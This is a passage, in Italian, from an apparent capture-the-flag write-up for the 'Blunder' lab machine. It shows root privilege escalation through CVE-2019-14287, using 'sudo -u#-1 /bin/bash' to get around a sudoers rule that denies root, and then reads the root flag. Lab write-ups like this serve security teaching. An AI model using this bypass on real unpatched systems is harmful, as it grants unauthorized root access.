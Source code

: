 Ciò significa che posso eseguire sudo /bin/bash come qualsiasi utente tranne root, il che è un peccato, poiché root è l'utente con cui voglio eseguirlo.

###### CVE-2019-14287

La configurazione sopra dovrebbe impedire a sudo di funzionare come utente root. Nel novembre 2019 è stato rilasciato un CVE pubblico su come esistessero altri modi per accedere a root oltre a root per aggirare questa restrizione. Ciò influisce sulle versioni sudo precedenti alla 1.8.28. Vedo che Blunder è in esecuzione 1.8.25:

```bash
hugo@blunder:~$ sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```

Quando esegui sudo, puoi inserire -u [utente] per indicare con quale utente eseguire. Puoi anche inserire l'utente come numero nel formato -u#[uid]. root viene utilizzato con ID 0, quindi posso provare:

```bash
hugo@blunder:~$ sudo -u#0 /bin/bash 
Password: 
Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.
```

Finora le cose stanno funzionando come previsto. La vulnerabilità è che posso inserire l'ID utente -1 e sudo lo tratterà come root. Funziona:

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password:
root@blunder:/home/hugo#

```

ed ecco la nostra root_flag

```bash
root@blunder:/home/hugo# cat /root/root.txt
f659347e0de211cf75befb0346da0aac
```
